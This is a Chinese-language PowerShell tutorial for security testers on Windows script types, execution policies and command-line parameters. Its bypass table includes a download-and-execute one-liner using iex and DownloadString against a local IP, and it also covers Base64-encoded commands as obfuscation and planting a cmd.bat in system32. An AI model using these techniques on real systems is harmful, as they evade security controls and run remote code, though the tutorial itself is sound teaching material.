

# Powershell(3)-脚本执行基础


## 开始之前 
我们在开始之前先来介绍在windows平台中常用到的几种脚本

### Bat
这就是我们常用的Bat脚本，全名为批处理文件，脚本中就是我们在CMD中使用到的命令，这里提一个小问题：
CMD的命令行执行命令的优先级是`.bat > .exe`，那么假如我放一个cmd.bat在system32目录下，那么优先执行的是cmd.bat，这里面的内容就变得不可描述起来了

### VBscript

执行vbs就是常说的vbscript,是微软为了方便自动化管理windows而推出的脚本语言，这里了解一下即可，不是文章重点。

```vbs
一个小例子通过vbs操作WMI
Set wmi = GetObject("winmgmts:")
Set collection = wmi.ExecQuery("select * from Win32_Process")
For Each process in collection
WScript.Echo process.getObjectText_
Next
```

## Powershell

这就是我们的主角，在现在和未来一定是powershell占据主要地位(对于这一点搞Win多一点的朋友一定不会怀疑)，首先我们来看一个简单的例子

```powershell
script.ps1:
# 脚本内容
function test-conn { Test-Connection  -Count 2 -ComputerName $args}

# 载入脚本文件
.\script.ps1

# 调用函数
test-conn localhost
```

### Powershell执行策略

那么你可能会在调用脚本的时候出现报错，这是powershell的安全执行策略，下面我们来了解一下执行策略：
PowerShell 提供了 Restricted、AllSigned、RemoteSigned、Unrestricted、Bypass、Undefined 六种类型的执行策略
简单介绍各种策略如下：

|名称|说明|
|:------|:------|
|Restricted|受限制的，可以执行单个的命令，但是不能执行脚本Windows 8, Windows Server 2012, and Windows 8.1中默认就是这种策略，所以是不能执行脚本的，执行就会报错，那么如何才能执行呢？Set-ExecutionPolicy -ExecutionPolicy Bypass就是设置策略为Bypass这样就可以执行脚本了。|
|AllSigned|AllSigned 执行策略允许执行所有具有数字签名的脚本|
|RemoteSigned|当执行从网络上下载的脚本时，需要脚本具有数字签名，否则不会运行这个脚本。如果是在本地创建的脚本则可以直接执行，不要求脚本具有数字签名。|
|Unrestricted|这是一种比较宽容的策略，允许运行未签名的脚本。对于从网络上下载的脚本，在运行前会进行安全性提示。需要你确认是否执行脚本|
|Bypass|Bypass 执行策略对脚本的执行不设任何的限制，任何脚本都可以执行，并且不会有安全性提示。|
|Undefined|Undefined 表示没有设置脚本策略。当然此时会发生继承或应用默认的脚本策略。|


那么我们如何绕过这些安全策略呢？下面提供几种方法，网上还有很多的绕过方法，大家可以自行研究：

|名称|说明|
|:---|:---|
|Get-ExecutionPolicy|获取当前的执行策略|
|Get-Content .\test.ps1 \| powershell.exe -noprofile -|通过管道输入进ps|
|powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.2/test.ps1')"|通过远程下载脚本来绕过|
|$command = "Write-Host 'Hello World!'"<br>$bytes = [System.Text.Encoding]::Unicode.GetBytes($command) <br>$encodedCommand = [Convert]::ToBase64String($bytes) <br>powershell.exe -EncodedCommand $encodedCommand|通过BASE64编码执行|

### powershell的脚本调用方法：

1. 如果脚本是直接写的代码而不是只定义了函数那么直接执行脚本.\script.ps1即可
2. 但是如果是载入里面的函数需要`.+空格+.\script.ps1`
3. 或者使用Import-Module .\script.ps1, 这样才能直接使用脚本的函数

## 通过控制台执行Powershell

对于我们安全测试人员通常获取到的一个Shell是CMD的, 那么我们想要尽可能少的操作就可以直接通过控制台来执行powershell的命令, 那么先来看一个简单的例子:


可以看到我们通过CMD界面执行了Powershell的代码, 那么其实这样的执行方式在真实的安全测试环境中利用更多, 下面是一个Powershell通过这种方式执行的所有可选的参数:

```powershell
PowerShell[.exe]
       [-PSConsoleFile <file> | -Version <version>]
       [-EncodedCommand <Base64EncodedCommand>]
       [-ExecutionPolicy <ExecutionPolicy>]
       [-File <filePath> <args>]
       [-InputFormat {Text | XML}] 
       [-NoExit]
       [-NoLogo]
       [-NonInteractive] 
       [-NoProfile] 
       [-OutputFormat {Text | XML}] 
       [-Sta]
       [-WindowStyle <style>]
       [-Command { - | <script-block> [-args <arg-array>]
                     | <string> [<CommandParameters>] } ]

PowerShell[.exe] -Help | -? | /?
```
|名称|解释|
|:--|:--|
|-Command |需要执行的代码|
|-ExecutionPolicy |设置默认的执行策略，一般使用Bypass |
|-EncodedCommand | 执行Base64代码|
|-File | 这是需要执行的脚本名|
|-NoExit | 执行完成命令之后不会立即退出，比如我们执行powerhsell whoami 执行完成之后会推出我们的PS会话，如果我们加上这个参数，运行完之后还是会继续停留在PS的界面|
|-NoLogo | 不输出PS的Banner信息|
|-Noninteractive | 不开启交互式的会话|
|-NoProfile | 不使用当前用户使用的配置文件|
|-Sta | 以单线程模式启动ps|
|-Version | 设置用什么版本去执行代码|
|-WindowStyle | 设置Powershell的执行窗口，有下面的参数Normal, Minimized, Maximized, or Hidden|

最后举一个执行Base64代码的例子:

1. 我们先试用上面一个表格提到的编码代码编码命令`whoami`, 得到字符串:`dwBoAG8AYQBtAGkACgA=`
2. 通过下面的命令来执行代码

```powershell
powershell -EncodedCommand dwBoAG8AYQBtAGkACgA=
```


那么这种需求在什么地方呢? 比如我们的代码特别长或者会引起一起歧义的时候就需要我们使用这种方式去执行, 同时也是一个混淆的方式。